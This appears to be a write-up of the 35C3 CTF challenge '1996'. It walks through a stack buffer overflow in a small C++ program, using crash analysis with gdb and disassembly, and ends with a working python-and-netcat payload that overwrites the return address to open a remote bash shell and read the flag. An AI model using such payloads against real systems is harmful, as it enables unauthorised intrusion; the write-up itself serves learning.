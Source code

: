 # 1996

The challenge is presented as

> It's 1996 all over again!
>
> nc 35.207.132.47 22227
>
> Difficulty estimate: very easy

And linked we receive an executable binary and its source code:

```cpp
// compile with -no-pie -fno-stack-protector

#include <iostream>
#include <unistd.h>
#include <stdlib.h>

using namespace std;

void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}

int main() {
    char buf[1024];

    cout << "Which environment variable do you want to read? ";
    cin >> buf;

    cout << buf << "=" << getenv(buf) << endl;
}
```

And one does indeed on netcat see the here expected output and can querry a few
environment variables.

Randomly trying around, there doesn't seem to be a variable that gives access
to a flag.

# attack mechanism

My reading homework is [this
article](http://phrack.org/issues/49/14.html#article) though I got a quick
summary at the congress: the return address is at the end of a stack frame of a
function, so if one manages to write behind the space for stack-local
variables, one can write into the address to which the program should return
after the function.

In this example this means if I write something more than 1024 characters into
the variable name, the main routine will do strange things. (just 1025 might
not be enough since the frame might be larger).

## Systematic approach

So the approach I did is enter longer strings until the program
crashes locally (adding like 5 characters every time)

And then `gdb` to the rescue:

```
coredumpctl debug --debugger=my-gdb
```

Where `my-gdb` is an executable text file in my `PATH` with the following
content.

```
#!/bin/sh

exec gdb -q -n -ex 'thread apply all bt' -batch "$@"
```

(okay, one could also just do `coredumpctl debug` and then enter `bt` in `gdb`)

From the stacktrace one can see to where `main` returned.

e.g.

```
pseyfert@robusta:/tmp > python2 -c 'print "."*1050' | ./1996
pseyfert@robusta:/tmp > coredumpctl debug --debugger=my-gdb
Hint: You are currently not seeing messages from other users and the system.
      Users in groups 'adm', 'systemd-journal', 'wheel' can see all messages.
      Pass -q to turn off this notice.
           PID: 14214 (1996)
           UID: 1000 (pseyfert)
           GID: 985 (users)
        Signal: 11 (SEGV)
     Timestamp: Sat 2018-12-29 18:55:32 CET (34s ago)
  Command Line: ./1996
    Executable: /tmp/1996
 Control Group: /user.slice/user-1000.slice/session-1.scope
          Unit: session-1.scope
         Slice: user-1000.slice
       Session: 1
     Owner UID: 1000 (pseyfert)
       Boot ID: b373963778ac44f68e1e2ec562ff5581
    Machine ID: 2b05d4aea6054d149ec64f58c82ec373
      Hostname: robusta
       Storage: /var/lib/systemd/coredump/core.1996.1000.b373963778ac44f68e1e2ec562ff5581.14214.1546106132000000.lz4
       Message: Process 14214 (1996) of user 1000 dumped core.
                
                Stack trace of thread 14214:
                #0  0x00007f765c002e2e n/a (n/a)

[New LWP 14214]
Core was generated by `./1996'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007f765c002e2e in ?? ()

Thread 1 (LWP 14214):
#0  0x00007f765c002e2e in ?? ()
#1  0xffffffffffffff90 in ?? ()
#2  0x00007ffd1f926838 in ?? ()
#3  0x000000015cb41ed0 in ?? ()
#4  0x00000000004008cd in spawn_shell() ()
#5  0x0000000000000000 in ?? ()
```

from the ascii man page I could look up that `0x2e` is dot, so the last two
dots leaked into the return pointer. Disassembly `objdump -D 1996 | vim -R -`

```
0000000000400897 <_Z11spawn_shellv>:
  400897:       55                      push   %rbp
  400898:       48 89 e5                mov    %rsp,%rbp
  40089b:       48 83 ec 10             sub    $0x10,%rsp
  40089f:       48 8d 05 b3 01 00 00    lea    0x1b3(%rip),%rax        # 400a59 <_ZStL19piecewise_construct+0x1>
  4008a6:       48 89 45 f0             mov    %rax,-0x10(%rbp)
  4008aa:       48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
  4008b1:       00
  4008b2:       48 8d 45 f0             lea    -0x10(%rbp),%rax
  4008b6:       ba 00 00 00 00          mov    $0x0,%edx
  4008bb:       48 89 c6                mov    %rax,%rsi
  4008be:       48 8d 3d 94 01 00 00    lea    0x194(%rip),%rdi        # 400a59 <_ZStL19piecewise_construct+0x1>
  4008c5:       e8 d6 fe ff ff          callq  4007a0 <execve@plt>
  4008ca:       90                      nop
  4008cb:       c9                      leaveq
  4008cc:       c3                      retq
```

shows we need to jump to `0000000000400897` and from the stacktrace we know
that trailing zero bytes are needed.

There is one small stumble stone left, namely to be able to provide some input
for the opened bash and interactively look around:

```
(python2 -c 'print "."*1048+"\x97\x08\x40\x00\x00\x00\x00"' ; cat )| nc 35.207.132.47 22227
```

This gives a shell:

```
pseyfert@robusta:~ > (python2 -c 'print "."*1048+"\x97\x08\x40\x00\x00\x00\x00"' ; cat )| nc 35.207.132.47 22227                   
Which environment variable do you want to read? .......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................@=
```

The cursor is at the end of that line and one's almost done after one `ls`:

```
.........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................@=ls
1996
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

okay, `flag.txt` sounds good

```
cat flag.txt
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```

And there's the flag.

[![Creative Commons License](https://i.creativecommons.org/l/by-sa/4.0/80x15.png) This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-sa/4.0/)]
